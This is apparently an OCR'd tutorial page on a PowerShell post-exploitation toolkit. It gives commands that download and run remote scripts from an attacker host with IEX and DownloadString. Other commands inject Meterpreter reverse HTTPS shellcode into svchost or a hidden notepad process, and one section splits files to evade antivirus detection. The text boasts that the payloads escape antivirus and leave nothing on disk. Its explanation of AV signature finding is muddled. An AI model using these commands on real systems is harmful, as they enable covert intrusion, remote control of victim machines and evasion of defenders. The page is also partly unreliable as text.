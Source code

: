 5. PE Tools	
    - Handy PowerShell cmdlets for enumeration.

6. Recon	
    - Perform reconnaissance tasks using victim machine.

7. Reverse Engineering
    - Help perform reverse engineering & malware analysis. It has now been moved to PowerShellArsenal.

8. Script Modification	
    - Create and manipulate scripts on victim machine.

##### Invoke-Shellcode

This script can be used to inject a custom shellcode or metasploit payload into an existing process and then execute it. These scripts are not flagged by antiviruses, and files are not written on disk. 

In PowerShell the following command will install that PowerShell script for the current process. 

**IEX (New-Object Net.WebClient).DownloadString("http://<ip_address>/full_path/script_name.ps1”)**  # syntax 

**IEX (New-Object Net.WebClient).DownloadString(“http://10.0.0.14:8000/CodeExecution/Invoke-Shellcode.ps1”)** # Invoke-Shellcode example 

The payload is then injected into the current PowerShell process and a Meterpreter Reverse HTTPS shell should be recieved. 

**Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 10.0.0.14 -Lport 4444 -Force** # injected payload

##### Injecting in existing processes

In Powershell get the process IDs using "Get-Process", then inject the Metasploit Payload into the **svchost** process with a PID of **1228**.

**Invoke-Shellcode -ProcessId 1228 -Payload windows/meterpreter/reverse_https -Lhost <\IP address\> -Lport 4444** 

##### Injecting a New Process

First you have to create a new hidden process. 

**Start-Process c:\windows\system32\notepad.exe -WindowStyle Hidden**

Inject the new process

**Invoke-Shellcode -ProcessId 1476 -Payload windows/meterpreter/reverse_https -Lhost <\IP address\> -Lport 6666 -Force** 

##### Find-AVSignature

A cmdlet used to bypass the anti-virus software by spliting a file into specific byte sizes and storing them in separate files. The anti-virus then find and removes them allowing for the parts of the file with the AVSignature to be detected. 

Install the PowerShell Scripts "Find-AVSignature" :

**IEX (New-Object Net.WebClient).DownloadString(“http://10.0.0.14:8000/AntivirusBypass/Find-AVSignature.ps1”)**
